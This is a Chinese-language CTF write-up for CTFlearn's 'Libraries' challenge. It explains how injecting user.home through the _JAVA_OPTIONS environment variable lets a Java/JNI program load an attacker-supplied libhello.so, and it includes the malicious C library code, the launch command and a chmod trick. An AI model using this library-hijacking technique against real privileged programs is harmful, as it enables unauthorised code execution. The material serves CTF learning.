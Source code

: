 ```yaml
---
layout: post
title: Libraries
categories: writeups
tags: pwn
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/393
challenge_url_comment: 需要注册登录
---
```


这道题与 Java 及 JNI 有关。登录到主机后，看一下目录：

![dir]({% asset dir.png %})

flag 仍然存放在 flag.txt 中，并且提供了源代码。

{% include writeup_begin.html %}

这道题的主要问题部分在 `Helloworld.java` 中：

{% highlight java linenos %}
public class Helloworld
{
    static
    {
        try
        {
            loadingLibrary();
        }
        catch (Exception e)
        {
            System.err.println("Unable to load library...");
        }
    }

    public static void sayHello(String flag) throws Exception
    {
        String msg = "Hello World from JNI!";
        print(msg);
        if (msg.contains("flag"))
        {
            //What just happened?
            print("What the flag? How did that happen...");
            print("Your flag is: " + flag);
        }
    }

    /**
    * Loads the helloworld library into java.
    */
    private static void loadingLibrary() throws Exception
    {
        Path libFolder = Paths.get(System.getProperty("user.home"), ".helloWorld");

        //Create user folder to copy libraries from jar file.
        if (!Files.exists(libFolder))
            Files.createDirectory(libFolder);

        //Copy library from jar file into user folder
        Path libDest = libFolder.resolve("libhello.so");
        try
        {
        //Copy libhello if not already there.
            Files.copy(ClassLoader.getSystemResourceAsStream("libhello.so"), libDest);
        }
        catch (Exception e)
        {
            //i don't know why this is throwing an error...
            //i think this fixes it...
        }

        //Dynamically link to it.
        System.load(libDest.toString());
    }

    /**
    * This method prints out the message on standard output.
    * @param msg the message to print out.
    */
    private static native void print(String msg);
}
{% endhighlight %}

首先我们关注到 19 行处，如果字符串 `msg` 中包含了“flag”，那么程序就会打印出真正的 flag。`msg` 本身是不包含“flag”的，但这段 Java 程序通过 JNI 调用了一个动态链接库的函数。看来我们需要从这个地方下手。

同时注意到 43 行在拷贝自身资源中的动态链接库文件时，直接 catch 住了所有的异常，这意味着即使复制失败了，程序也会继续执行。再往上看几行，32 行处构造动态链接库目录时使用了 `user.home` 这一系统属性，而这个属性是可以从环境变量中注入的。至此思路大致就清晰了：首先我们需要传入一个自定义的 `user.home` 路径，其中包含了我们自己的 `libhello.so`，进而在 `print` 函数中修改字符串的值。

那么如何设置 `user.home` 呢？首先想到的是在 Java 虚拟机启动时使用命令行参数传入。但是由于在程序入口 `hellotest.cpp` 中固定了传入虚拟机参数，我们无法使用这种方法：

{% highlight cpp linenos %}
    JavaVMOption* options = new JavaVMOption[1];
    options[0].optionString = (char*)"-Djava.class.path=/home/lib/Helloworld.jar";
    vm_args.version = JNI_VERSION_1_6;
    vm_args.nOptions = 1;
    vm_args.options = options;
    vm_args.ignoreUnrecognized = false;
{% endhighlight %}

但除了直接通过命令行参数的方式将属性传给 Java 虚拟机，我们还有另一种传入属性的方法：`_JAVA_OPTIONS` 环境变量。我们只需要在这个环境变量中写好虚拟机的参数，与直接通过命令行参数传入是一样的。因此只需使用

`_JAVA_OPTIONS=-Duser.home=/tmp/test ./hellotest`

启动程序就可以了。此时程序会输出 `Picked up _JAVA_OPTIONS: -Duser.home=/tmp/test`，这就表示我们成功地将 `user.home` 改为 `/tmp/test`了。

下一步就是设计我们自己的 `libhello.so`。首先看一下原版的 `hellolib.c` 的内容：

{% highlight c linenos %}
#include <jni.h>
#include <stdlib.h>
#include <stdio.h>
#include "Helloworld.h"

JNIEXPORT void JNICALL Java_Helloworld_print
  (JNIEnv* env, jclass cls, jstring msg)
{
    const char* str = (*env)->GetStringUTFChars(env, msg, 0);
    printf("%s\n", str);
    if (str)
        (*env)->ReleaseStringUTFChars(env, msg, str);
    fflush(stdout);
}
{% endhighlight %}

OK，就是打印出传入的字符串。下面我们需要通过反射把 `msg` 的内容改变：

{% highlight c linenos %}
JNIEXPORT void JNICALL Java_Helloworld_print
  (JNIEnv* env, jclass cls, jstring msg)
{
    const char* str = (*env)->GetStringUTFChars(env, msg, 0);
    printf("%s\n", str);
    if (str)
        (*env)->ReleaseStringUTFChars(env, msg, str);
    fflush(stdout);

    // 通过反射修改字符串的内容
    jclass c = (*env)->GetObjectClass(env, msg);
    jcharArray flag = (*env)->NewCharArray(env, 4); 
    jchar* bytes = (*env)->GetCharArrayElements(env, flag, 0);
    bytes[0] = 'f';
    bytes[1] = 'l';
    bytes[2] = 'a';
    bytes[3] = 'g';
    (*env)->SetCharArrayRegion(env, flag, 0, 4, bytes);

    // 找到 String 类中的 value 成员
    jfieldID field_id = (*env)->GetFieldID(env, c, "value", "[C");
    (*env)->SetObjectField(env, msg, field_id, flag);
}
{% endhighlight %}

将我们自己编译生成出的 `libhello.so` 放入 `/tmp/test/.helloWorld/` 目录中，并使用 `chmod -wx` 将文件权限设为只读，这样才不会被 `Helloworld.java` 中的 `File.copy` 所覆盖。

执行一下 `_JAVA_OPTIONS=-Duser.home=/tmp/test ./hellotest`，程序就能够成功打印出 flag 了。

{% include writeup_end.html %}
